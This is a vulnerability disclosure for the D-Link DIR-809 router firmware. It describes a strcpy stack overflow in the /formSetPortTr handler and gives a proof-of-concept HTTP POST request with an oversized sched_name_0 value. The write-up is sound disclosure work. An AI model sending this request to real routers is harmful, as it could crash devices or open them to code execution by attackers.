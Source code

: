 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formSetPortTr` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_80046eb4` ( page `/formSetPortTr` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"sched_name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_1c4`. 

![2021-05-10_10h43_49](README/2021-05-10_10h43_49.png)



## PoC

``` 
POST /formSetPortTr.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3132
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Special_Applications.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=YF608CCB25
Connection: close

settingsChanged=1&curTime=1620559041239&HNAP_AUTH=6946CD2354C87A2E9E189EFFB61EECD9+1620559041&submit-url=%2FAdvanced%2FSpecial_Applications.asp&used_0=0&enabled_0=0&entry_name_0=1321313123123&trigPortRng_0=9090&trigPortPtc_0=6&sched_name_0=aaaaaaaaa*0x200&inputPortRng_0=9091&inputPortPtc_0=6&used_1=0&enabled_1=0&entry_name_1=&trigPortRng_1=&trigPortPtc_1=6&sched_name_1=Always&inputPortRng_1=&inputPortPtc_1=6&used_2=0&enabled_2=0&entry_name_2=&trigPortRng_2=&trigPortPtc_2=6&sched_name_2=Always&inputPortRng_2=&inputPortPtc_2=6&used_3=0&enabled_3=0&entry_name_3=&trigPortRng_3=&trigPortPtc_3=6&sched_name_3=Always&inputPortRng_3=&inputPortPtc_3=6&used_4=0&enabled_4=0&entry_name_4=&trigPortRng_4=&trigPortPtc_4=6&sched_name_4=Always&inputPortRng_4=&inputPortPtc_4=6&used_5=0&enabled_5=0&entry_name_5=&trigPortRng_5=&trigPortPtc_5=6&sched_name_5=Always&inputPortRng_5=&inputPortPtc_5=6&used_6=0&enabled_6=0&entry_name_6=&trigPortRng_6=&trigPortPtc_6=6&sched_name_6=Always&inputPortRng_6=&inputPortPtc_6=6&used_7=0&enabled_7=0&entry_name_7=&trigPortRng_7=&trigPortPtc_7=6&sched_name_7=Always&inputPortRng_7=&inputPortPtc_7=6&used_8=0&enabled_8=0&entry_name_8=&trigPortRng_8=&trigPortPtc_8=6&sched_name_8=Always&inputPortRng_8=&inputPortPtc_8=6&used_9=0&enabled_9=0&entry_name_9=&trigPortRng_9=&trigPortPtc_9=6&sched_name_9=Always&inputPortRng_9=&inputPortPtc_9=6&used_10=0&enabled_10=0&entry_name_10=&trigPortRng_10=&trigPortPtc_10=6&sched_name_10=Always&inputPortRng_10=&inputPortPtc_10=6&used_11=0&enabled_11=0&entry_name_11=&trigPortRng_11=&trigPortPtc_11=6&sched_name_11=Always&inputPortRng_11=&inputPortPtc_11=6&used_12=0&enabled_12=0&entry_name_12=&trigPortRng_12=&trigPortPtc_12=6&sched_name_12=Always&inputPortRng_12=&inputPortPtc_12=6&used_13=0&enabled_13=0&entry_name_13=&trigPortRng_13=&trigPortPtc_13=6&sched_name_13=Always&inputPortRng_13=&inputPortPtc_13=6&used_14=0&enabled_14=0&entry_name_14=&trigPortRng_14=&trigPortPtc_14=6&sched_name_14=Always&inputPortRng_14=&inputPortPtc_14=6&used_15=0&enabled_15=0&entry_name_15=&trigPortRng_15=&trigPortPtc_15=6&sched_name_15=Always&inputPortRng_15=&inputPortPtc_15=6&used_16=0&enabled_16=0&entry_name_16=&trigPortRng_16=&trigPortPtc_16=6&sched_name_16=Always&inputPortRng_16=&inputPortPtc_16=6&used_17=0&enabled_17=0&entry_name_17=&trigPortRng_17=&trigPortPtc_17=6&sched_name_17=Always&inputPortRng_17=&inputPortPtc_17=6&used_18=0&enabled_18=0&entry_name_18=&trigPortRng_18=&trigPortPtc_18=6&sched_name_18=Always&inputPortRng_18=&inputPortPtc_18=6&used_19=0&enabled_19=0&entry_name_19=&trigPortRng_19=&trigPortPtc_19=6&sched_name_19=Always&inputPortRng_19=&inputPortPtc_19=6&used_20=0&enabled_20=0&entry_name_20=&trigPortRng_20=&trigPortPtc_20=6&sched_name_20=Always&inputPortRng_20=&inputPortPtc_20=6&used_21=0&enabled_21=0&entry_name_21=&trigPortRng_21=&trigPortPtc_21=6&sched_name_21=Always&inputPortRng_21=&inputPortPtc_21=6&used_22=0&enabled_22=0&entry_name_22=&trigPortRng_22=&trigPortPtc_22=6&sched_name_22=Always&inputPortRng_22=&inputPortPtc_22=6&used_23=0&enabled_23=0&entry_name_23=&trigPortRng_23=&trigPortPtc_23=6&sched_name_23=Always&inputPortRng_23=&inputPortPtc_23=6
```





## Acknowledgment

Credit to  [@Yu3H0](https://github.com/Yu3H0/), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

